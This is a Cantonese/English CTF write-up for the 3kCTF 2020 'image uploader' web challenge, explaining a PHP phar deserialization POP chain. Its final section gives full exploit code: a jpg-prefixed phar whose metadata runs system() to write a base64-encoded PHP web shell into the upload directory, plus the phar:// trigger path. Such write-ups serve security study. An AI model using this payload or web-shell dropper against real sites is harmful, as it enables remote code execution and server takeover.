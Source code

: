 # 3kCTF 2020: image uploader

### (Web, 498 pts, 5 solves)

Description
> challenge

> source

> Author: Dali

## 題解 (Walkthrough)
我知你睇唔明廣東話架啦. 今次有翻譯. 
> I know you don't understand Cantonese. This time got translation.

個 description 得兩條[奸笑5678](https://www.google.com/search?q=goodsmile+5678). 是但啦有醬油有計傾. 
> (Some unimportant gibberish)

一開 `index.php` 就見到 `include('old.php');//todo remove this useless file :\`
> After opening `index.php` then we can see that include stuff...

明眼人一睇就知係伏啦. 一睇兩個 Class 重唔係玩 unserialize. 
> Obviously it is the vulnerable point. It contains 2 classes so obviously it is about unserialize.

碌落 D (唔好譯啦你譯唔到個 D 架啦) 個 index.php 見到 file_get_contents. 條件反射 phar unserialize 
> Scroll down [Don't translate that "D", you can't] that index.php, we can see `file_get_contents`. It immediately links to phar unserialize

有個 `upload.php` 真係可以 upload 野. 不過會 check `getimagesize` 同 `image/jpeg` 
> There is an `upload.php` that can really upload things. But it checks with `getimagesize` and `image/jpeg`.

睇返個 `old.php`, 又係驗眼嘅時間. 最底有個 `$data = "<?php\n//" . sprintf('%012d', $expire) . "\n exit();?>\n" . $data;` 但係無咩用.
> Let's go back to `old.php` and check our eyesight. The bottom `$data = "<?php...` looks interesting but unless.

除非個 `sprintf('%012d', $expire)` 可以整走個 `exit()` 啦. 
> Unless `sprintf('%012d', $expire)` could be used to get rid of that `exit()`.

再碌上 D 見到個詭異嘅 variable function `return $serialize($data);`. 咁開心.
> Scroll up a bit then we can see a weird variable function `return $serialize($data);`. So exciting.

所以如果將 `$this->options['serialize']` 改做 `system` 就可以行 `system`.
> So if we set `$this->options['serialize']` to `system` then we could run `system`.

但係個 `$data` 要點砌呢. 根據所謂 POP 可以 trace 到:
> But how can we control `$data`? According to the so-called Property-Oriented Programming, you can trace like this:

`$this->options['serialize']($data) //cl2->serialize` 

=> `$this->serialize($value) //cl2->set` 

=> `$this->store->set($this->key, $this->getForStorage(), $this->expire); //cl1->save`

=> `return json_encode([$this->cleanContents($this->cache), $this->complete]); //cl1->getForStorage()`

首先個 `$data` 有少少限制. 因為係 `json_encode` 個 Array.
> First, the `$data` is a bit restricted. Because it is constructed by `json_encode`-ing an array.

不過你想用 `system` 行 command 其實可以好求其. 好似咩 `$(ls)`.
> But if you just need to use `system` to execute command, it is pretty flexible. Like using `$(ls)`.

最後可以砌到好似 `system('["$(ls)",0]')`.
> At the end of the day we should be able to construct like `system('["$(ls)",0]')`.

要 trigger `cl1->save`, destructor 個 `$this->autosave` 要 false.
> If you want to trigger `cl1->save`, in the destructor, `$this->autosave` should be false.

依家有齊啲餡啦. 要搵返 phar 個 payload.
> We are cooking with gas. Now we need to get the phar payload.

邊鬼個會記得點寫. 抄返自己個威噏.
> Who the heck will remember how to write the payload. Just copy my own write-up.

https://github.com/ozetta/ctf-challenges/wiki/Envy-(Tangerine)

由 `$p = new Phar('malware.phar');` 果行抄起 (好似係)
> Copy the payload starting from `$p = new Phar('malware.phar');`

上面記得抄返個 Class definition 同埋改晒 D property 佢.
> Remember to copy the class definitions and change the properties to the desired one.

個 `getimagesize` 同 `image/jpeg` 點算? 求其攝個 jpg 向頭咪得囉.
> How to tackle `getimagesize` and `image/jpeg`? Just inject a jpg file in front.

---
## Final payload
```
<?php

class cl1 {
    protected $store;
    protected $key;
    protected $expire;

    public function __construct($store, $key = 'flysystem', $expire = null) {
        $this->key = $key;
        $this->store = $store;
        $this->expire = $expire;
        //add your own properties
        $this->cache = ['$(echo PD89YCRfR0VUWzBdYDs= | base64 -d > /var/www/html/up/z.php)'];
        $this->autosave = 0;
        $this->complete = 0;
    }
}

class cl2 {
    public function __construct(){
    	//add your own properties
    	$this->options['serialize'] = "system";
    	$this->writeTimes = 0;
     	$this->options['prefix'] = '';
     	$this->options['data_compress'] = 0;
    }
}

$x = new cl1(new cl2(),"z",0);
$p = new Phar('malware.phar');
$p->startBuffering();
$p->addFromString("z","");
$j = file_get_contents("1.jpg");
$p->setStub($j."<?php __HALT_COMPILER(); ? >");
$p->setMetadata($x);
$p->stopBuffering();
$file = file('malware.phar');
```

---
之後 upload 個「圖」, 出返個 "filename.jpg". 之後讀 `php://filter/convert.base64-encode/resource=phar:///var/www/html/up/filename`.
> Then upload that "image", will return "filename.jpg". Then access `php://filter/convert.base64-encode/resource=phar:///var/www/html/up/filename`.

之後點玩自己諗啦. 提示: 估下 `PD89YCRfR0VUWzBdYDs=` 係咩先.
> The rest is left as an exercise for the readers. (Hint: decode `PD89YCRfR0VUWzBdYDs=`)


## Remark

![troIl.png](troIl.png)

~~呢題咁易都搞咗我個半鐘真係失敗。~~

![trolI.png](trolI.png)

https://twitter.com/confus3r/status/1286850105513930752

慘。早啲起身咪有 First Blood (好似係
